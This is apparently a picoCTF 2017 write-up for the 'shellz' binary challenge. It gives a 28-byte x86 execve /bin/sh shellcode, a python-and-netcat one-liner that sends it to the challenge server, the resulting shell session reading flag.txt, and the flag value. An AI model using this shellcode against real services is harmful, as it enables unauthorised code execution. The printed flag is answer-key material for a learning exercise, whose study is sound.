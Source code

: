 Question:
>You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:49324.

Hints:
>There is a bunch of preexisting shellcode already out there!

Wow, I absolutely hate these problems. Shellcode's annoying.

Anyway, there is a whole truckload of pre-existing shellcode [here](http://shell-storm.org/shellcode/files/shellcode-811.php)
Some antiviruses don't like it, though (*cough* Norton *cough*)

The shellcode that works is 28 bytes:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

and to make it work, you have to use python to make sure it all goes in in one piece.

```

$  (python -c "import sys; sys.stdout.write('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"; cat) | netcat shell2017.picoctf.com 49324
My mother told me to never accept things from strangers     
How bad could running a couple bytes be though?             
Give me 40 bytes:                                           
                                                            
ls                                                          
flag.txt                                                    
shellz                                                      
shellz_no_aslr                                              
xinetd_wrapper.sh                                           
cat flag.txt
51e2978e4e59013145c2613f01185802    
```
So, the flag is `51e2978e4e59013145c2613f01185802`
 
